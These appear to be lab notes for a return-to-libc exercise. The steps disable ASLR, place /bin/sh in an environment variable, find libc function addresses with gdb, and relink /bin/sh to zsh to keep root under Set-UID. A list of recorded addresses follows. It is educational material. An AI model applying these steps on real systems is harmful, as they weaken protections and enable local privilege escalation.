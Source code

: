 
### Turn off random address
```console
$ cat /proc/sys/kernel/randomize_va_space
$ sudo sysctl -w kernel.randomize_va_space=0
```

### Get /bin/sh address in env
```console
$ export MYSHELL=/bin/sh
$ ./prtenv
```

### Get libc address in runtime
```console
$ gdb -q -batch -x gdb_command ./retlib
```

### Link /bin/sh to zsh for root
```console
$ sudo ln -sf /bin/zsh /bin/sh
$ sudo ln -sf /bin/dash /bin/sh
```

[How Set-UID work](https://unix.stackexchange.com/questions/519338/why-does-the-setuid-bit-work-inconsistently)


note:
input_address = 0xffffcce0
system = 0xf7e27e10
exit = 0xf7e1b060
execv = 0xf7ea9410
setuid = 0xf7ea9bb0
sprintf = 0xf7e3bcc0
env = 0xffffd933 (/bin/sh)